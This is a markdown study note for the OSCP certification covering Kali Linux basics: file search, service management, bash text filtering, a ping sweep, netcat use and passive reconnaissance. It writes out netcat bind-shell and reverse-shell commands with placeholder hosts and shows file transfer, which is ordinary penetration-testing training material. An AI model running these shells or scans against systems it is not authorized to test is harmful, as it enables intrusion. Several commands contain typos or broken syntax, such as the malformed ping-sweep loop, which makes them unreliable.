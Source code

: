 <p align=centre>

  <b>OSCP 2020</b><br>

 <img src="oscp1.png">

</p>
<p><b> Getting Comfortable With Kali Linux</b><br></p>


# Find File:

**locate**
```
updatedb
```
to update the file index database

```
locate [filename]
```
**which**

find the file which has current execution environment

```
which [part of file name]
```

**find**

powerfull search tool with many arguments

```
find [search location]  -name [filename] -exec file "{}"\;
```

# Service managent:

```
service [service name] [option]

```
option could be : start, stop, or restart

alternatevly you can use:

```
/etc/init.d/[service name] [option]
```

or:

```
update-rc.d [service name] [options]

```

options here are: defaults, remove, start , or stop



**GUI service management:**

rcconf

![Alt text](rcconf.png)


sysv--rc-conf

![Alt text](sysv-rc-conf.png)


# Bash Shell

to automate actions you need to write some shell scripts for example filtring domain names from a html page:

``` 
wget cisco.com 
cat index.html | grep "a href=" | cut -d "/" -f3
```

if you get error *ERROR: The certificate of ‘www.cisco.com’ is not trusted.* just use *wget --no-check-certificate cisco.com*

other method:

``
cat index.html |grep 'http://[^"]*' | cut -d "/" -f 3 |sort -u
```

# direct error to null screen (do not show errors)

```
command 2>/dev/null

```
where:

stdin – 0 – Standard Input (usually keyboard or file)

stdout – 1 – Standard Output (usually screen)

stderr – 2 – Standard Error (usually screen)


# Reverse Hex Dump:

```
xxd -r file > output
```
# login with ssh-private key

```
ssh -i [key file path] user@host

```

# ping sweeper:

```
#! /bin/bash
```
for ip in $(1 255) do
ping 192.168.1.$ip | grep "bytes from" | cut -d " " -f4 | cut -d ":" -f1 &
```

the & is to send each command to background and run the next on in the loop

# Rdisktop

```
rdisktop -u *username* -p *password* *hostname/ip*
```

# NetCat

on server side:

```
nc -nlp *port*
```
n stands for numerical host ( no DNS)
l stands for listen
p stands for port

on clinet side:

```
nc -n *netcat Server machine IP address* *port*
```

the port is the server spacified port number 


NetCat file transfare:

```
server side:
nc -npl *port* > *name for the recived file*

client side:
nc -n *serverIP* *serverport* < *path of the file to be send*
```
NetCat Remote Execution:

```
**forword command execution(Bind Shell)**
server side:
nc -lp *port* -e *full path of command to be executed*
clinet side:
nc -n *serverIP* *serverport*
**revirce shell**
server side:
nc -lp *port*
clinet side:
nc -n *serverIP* *serverPort* -e *full path of command to be executed*
```
# Reconnaissance:

Pasive:

```
theHarvester -d *domainname* -b google

```
you can use any other search engen to search in

```
whois *domainname* OR *IP*
```


DNS Enumeration:

``` 
host *internet hostname*
```

that would resolve the hostname to an IP address

```
host -t *DNS recired type* *domain*

recored type such as: ns, mx, a, and aaaa
```

Note -A insted of -t gets all the recoreds ns, mx, a, and aaaa recoreds